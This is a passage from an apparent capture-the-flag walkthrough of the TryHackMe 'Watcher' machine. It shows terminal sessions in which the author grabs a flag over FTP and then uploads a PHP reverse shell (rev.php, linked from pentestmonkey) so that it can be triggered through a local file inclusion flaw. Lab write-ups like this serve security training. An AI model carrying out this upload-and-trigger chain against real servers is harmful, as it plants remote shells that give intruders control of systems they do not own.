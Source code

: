 ```terminal
dftp>exit
221 Goodbye.

┌──(sirius㉿kali)-[~/CTF/THM/watcher]                                                                                                                        
└─$ ls                                                                                                                                                       
flag_2.txt  scans
```
Great, we found our second flag, we can copy it to our machine using : `get flag_2.txt`

Since we have an LFI vulnerability, i'm going to try to upload a php reverse shell to the FTP server and try to access it using the web server. The shell i will be using is this : [php_reverse_shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```terminal
$ ftp 10.10.18.205                                                                                                                                         
Connected to 10.10.18.205.                                                                                                                                   
220 (vsFTPd 3.0.3)                                                                                                                                           
Name (10.10.18.205:sirius): ftpuser                                                                                                                          
331 Please specify the password.                                                                                                                             
Password:                                                                                                                                                    
230 Login successful.                                                                                                                                        
Remote system type is UNIX.                                                                                                                                  
Using binary mode to transfer files.                                                                                                                         
ftp> put rev.php                                                                                                                                        
local: rev.php remote: rev.php                                                                                                                     
229 Entering Extended Passive Mode (|||45312|)                                                                                                               
553 Could not create file.                                                                                                                                   
ftp> pwd                                                                                                                                                     
Remote directory: /                                                                                                                                          
ftp> ls                                                                                                                                                      
229 Entering Extended Passive Mode (|||42555|)                                                                                                               
150 Here comes the directory listing.                                                                                                                        
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files                                                                                                
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt                                                                                           
226 Directory send OK.                                                                                                                                       
ftp> cd files                                                                                                                                                
250 Directory successfully changed.                                                                                                                          
ftp> put rev.php                                                                                                                                        
```